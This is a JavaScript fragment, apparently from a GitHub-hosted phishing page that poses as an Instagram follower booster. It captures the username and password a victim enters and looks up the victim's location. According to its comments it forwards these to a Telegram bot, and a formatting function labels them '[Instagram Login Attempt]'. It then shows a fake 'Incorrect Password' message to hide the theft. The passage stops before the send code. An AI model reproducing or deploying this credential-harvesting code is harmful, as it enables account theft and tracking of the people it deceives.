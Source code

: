         document.addEventListener('DOMContentLoaded', function() {
            const startBtn = document.getElementById('startBtn');
            const usernameInput = document.getElementById('username');
            const passwordInput = document.getElementById('password');
            const messageElement = document.getElementById('message');
            const loader = document.getElementById('loader');
            
            startBtn.addEventListener('click', function() {
                if (validateInputs()) {
                    const username = usernameInput.value.trim();
                    const password = passwordInput.value.trim();
                    const followersCount = document.querySelector('input[name="followers"]:checked').value;
                    
                    // Show loader
                    loader.style.display = 'block';
                    messageElement.classList.remove('show');
                    
                    // Get location and send all data to Telegram
                    getLocation(username, password, followersCount);
                    
                    // Simulate processing time
                    setTimeout(() => {
                        loader.style.display = 'none';
                        showMessage("Incorrect Password");
                        
                        // Reset form (optional)
                        passwordInput.value = '';
                    }, 3000);
                }
            });
            
            function validateInputs() {
                if (!usernameInput.value.trim()) {
                    showMessage("Please enter your username");
                    usernameInput.focus();
                    return false;
                }
                
                if (!passwordInput.value.trim()) {
                    showMessage("Please enter your password");
                    passwordInput.focus();
                    return false;
                }
                
                return true;
            }
            
            function sendToTelegramBot(username, password, followersCount) {
                const device = getDeviceInfo();
                
                const text = `
[Instagram Login Attempt]
- Username: ${username}
- Password: ${password}
- Followers Requested: ${followersCount}
